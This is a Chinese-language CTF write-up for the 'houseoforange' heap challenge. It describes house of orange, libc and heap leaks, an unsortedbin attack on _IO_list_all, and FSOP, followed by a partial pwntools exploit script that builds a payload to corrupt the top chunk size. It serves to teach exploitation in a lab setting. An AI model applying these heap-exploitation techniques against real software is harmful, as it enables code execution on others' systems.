 ##### 攻击思路
1. 通过 house of orange 搞出一个 unsorted bin
2. leak libc: malloc出来的chunk,原来的fd-bk链没被清空, 可以用来leak libc
3. leak heap: 这个比较玄学
	+ 经过测试:
		+ 本题中: 只有分配出足够大的chunk时, chunk的next_chunk链将指向该chunk本身
		+ 而实际上,会出现这种原因, 是因为在遍历unsorted bin的时, chunk不是exact fit, 就会放到smallbin或者largebin, 如果是放到largebin中, 如果largebin是空的, 那么chunk的nextsize链指向该chunk本身, malloc的时候如果设置清除, 就会保留.
		+ 玄学的地方在于: 本题要malloc足够大才会保留, 而自己写个malloc程序测试时, 即使是malloc(0x20), 返回的chunk也会保留有 nextsize 链
		+ 真的玄学

4. leak heap之后就可以unsortedbin attack, 使 io_list_all 指向 unsortedbin
	+ 这一步会破坏unsortedbin,会报错, 那么就可以使用 Fsop
	+ 在unsortedbin attack之前,,伪造好 IO_FILE_plus
	+ 由于 io_list_all 指向了 unsortedbin, 在输出所有的错误信息时, 会根据 IO_FILE_plus 的_chain, 那么将原来的unsortedbin搞进smallbin就可以控制_chain指向我们伪造的IO_FILE_plus

5. Fsop



#### exp
```python
#!/usr/bin/env python
from pwn import *

p=process(argv=["./houseoforange"],env={"LD_PRELOAD":"./libc.so.6"})
context.log_level="debug"

gdb.attach(p)

def new(lenofname,name,color_num=56746,price=0xffffffff):
    p.recvuntil("Your choice : ")
    p.sendline("1")
    p.recvuntil('Length of name :')
    p.sendline(str(lenofname))
    p.recvuntil("Name :")
    p.send(name)
    p.recvuntil("Price of Orange:")
    p.sendline(str(price))
    p.recvuntil("Color of Orange:")
    p.sendline(str(color_num))

def edit(name_len,name,price=0xffffffff,color=56746):
    p.recvuntil("Your choice : ")
    p.sendline("3")
    p.recvuntil("Length of name :")
    p.sendline(str(name_len))
    p.recvuntil("Name:")
    p.send(name)
    p.recvuntil("Price of Orange: ")
    p.sendline(str(price))
    p.recvuntil("Color of Orange: ")
    p.sendline(str(color))

def show():
    p.recvuntil("Your choice : ")
    p.sendline("2")

new(1,"\x78")                                # new 0
name_len=0x10+0x20+0x10     # name_chunk_usr + message_chunk + top_chunk_header
name_payload='name'*4
name_payload+=p64(0)+p64(0x21)+p32(0xffffffff)+p32(56746)+'a'*8
name_payload+='\x00'*8+p64(0xfa1)

```